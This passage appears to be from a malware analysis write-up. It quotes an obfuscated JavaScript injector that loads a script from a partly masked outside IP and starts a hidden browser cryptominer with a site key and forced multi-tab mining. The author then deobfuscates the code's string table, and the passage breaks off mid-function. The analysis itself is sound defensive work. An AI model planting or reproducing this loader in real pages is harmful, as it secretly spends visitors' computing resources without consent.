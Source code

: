 ```
"text/javascript",
"readyState",
"Onreadystatechange",
"Loaded",
"Complete",
"Onload",
"Src",
"appendChild",
"Head",
"getElementsByTagName",
"http://146.185.234.xx/hhY6.js",
"Undefined",
"Stop",
"_client",
"56bc34061cd882609aab5de9d411b6e12be622137090334aa0697591bd8c7742",
"Start"];
function loadScript(_0x17a8x2,_0x17a8x3){
  var _0x17a8x4 = document[_0x17e1[1]](_0x17e1[0]);
  _0x17a8x4[_0x17e1[2]] = _0x17e1[3];
if(_0x17a8x4[_0x17e1[4]]){
  _0x17a8x4[_0x17e1[5]] = function(){
    if(_0x17a8x4[_0x17e1[4]] == _0x17e1[6] || _0x17a8x4[_0x17e1[4]] == _0x17e1[7]){
      _0x17a8x4[_0x17e1[5]] = null;_0x17a8x3()}}}else {_0x17a8x4[_0x17e1[8]]= function(){_0x17a8x3()}};_0x17a8x4[_0x17e1[9]]= _0x17a8x2;document[_0x17e1[12]](_0x17e1[11])[0][_0x17e1[10]](_0x17a8x4)}loadScript(_0x17e1[13],function(){setTimeout(function(){if( typeof (miner)!= _0x17e1[14]){try{miner[_0x17e1[15]]()}catch(e){}};if( typeof (_client)!= _0x17e1[14]){try{_client[_0x17e1[15]]()}catch(e){}};document[_0x17e1[16]]=  new Client.Anonymous(_0x17e1[17],{throttle:0.3});document[_0x17e1[16]][_0x17e1[18]](Client.FORCE_MULTI_TAB)},1000)})
```
So, this link fetched some malicious script to load hhY6.js. I tried to unravel the loadScript functions for better verbosity:

```javascript
0x17e1[0] = "script"
0x17e1[1] = "createElement"
0x17e1[2] = "type"
0x17e1[3] = "text/javascript"
0x17e1[4] = "readyState"
0x17e1[5] = "onreadystatechange"
0x17e1[6] = "loaded"
0x17e1[7] = "complete"
0x17e1[8] = "onload"
0x17e1[9] = "src"
0x17e1[10] = "appendChild"
0x17e1[11] = "head"
0x17e1[12] = "getElementsByTagName"
0x17e1[13] = "http://146.185.234.xx/hhY6.js"
0x17e1[14] = "undefined"
0x17e1[15] = "stop"
0x17e1[16] = "_client"
0x17e1[17] = "56bc34061cd882609aab5de9d411b6e12be622137090334aa0697591bd8c7742"
0x17e1[18] = "start"

function loadScript(_0x17a8x2,_0x17a8x3){
  var _0x17a8x4 = document["createElement"]("script");
  _0x17a8x4["type"] = "text/javascript";
  if(_0x17a8x4["readyState"]){
    _0x17a8x4["onreadystatechange"] = function(){
      if(_0x17a8x4["readyState"] == "loaded" || _0x17a8x4["readyState"] == "complete"){
        _0x17a8x4["onreadystatechange"] = null;
        _0x17a8x3()
      }
    }
  }
```